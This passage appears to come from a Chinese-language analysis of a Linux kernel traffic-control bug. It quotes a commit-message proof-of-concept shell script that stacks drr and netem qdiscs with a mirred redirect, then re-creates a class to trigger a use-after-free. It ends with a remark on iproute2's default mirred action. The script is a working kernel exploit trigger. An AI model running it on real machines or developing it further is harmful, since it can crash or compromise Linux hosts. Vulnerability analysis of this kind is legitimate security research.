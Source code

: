 下方為 commit message 所提供的 PoC：

```bash
#!/bin/sh

ip link add type dummy
ip link set lo up
ip link set dummy0 up

tc qdisc add dev lo parent root handle 1: drr
tc filter add dev lo parent 1: basic classid 1:1
tc class add dev lo classid 1:1 drr

tc qdisc add dev lo parent 1:1 handle 2: netem
tc qdisc add dev lo parent 2: handle 3: drr
tc filter add dev lo parent 3: basic classid 3:1 action mirred egress redirect dev dummy0
tc class add dev lo classid 3:1 drr

ping -c1 -W0.01 localhost # Trigger bug

tc class del dev lo classid 1:1
tc class add dev lo classid 1:1 drr
ping -c1 -W0.01 localhost # UaF
```

P.S. 從 iproute2 tc 的 [source code](https://github.com/pantoniou/iproute2/blob/f443565f8df65e7d3b3e7cb5f4e94aec1e12d067/tc/m_mirred.c#L134) 能得知，預設 mirred 的 "redirect" action 就已經是 `TC_ACT_STOLEN`，因此不需要特別給。

